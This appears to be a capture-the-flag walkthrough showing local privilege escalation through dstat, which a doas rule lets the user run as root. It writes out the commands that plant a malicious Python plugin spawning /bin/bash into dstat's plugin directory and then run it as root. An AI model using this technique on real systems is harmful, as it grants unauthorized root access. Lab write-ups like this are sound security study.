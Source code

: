 `cat /usr/local/etc/doas.conf`

![image.png](image%2038.png)

player can run the command `dstat` as root.

dstat:

- Enhance monitoring with specialized metrics.
- Consolidate system and application monitoring in one tool.
- Easily extendable for custom monitoring needs.

I read the man of dstat. At the very bottom of the page, it has a section on files:

```bash
~/.dstat/
(path of binary)/plugins/
/usr/share/dstat/
/usr/local/share/dstat/
```

Plugins are Python scripts with the name `dstat_[plugin name].py`.
I will try to write a simple shell/ plugin

```bash
echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
```

```bash
doas /usr/bin/dstat --pwn
```

![image.png](image%2039.png)

GG!!

![image.png](image%2040.png)
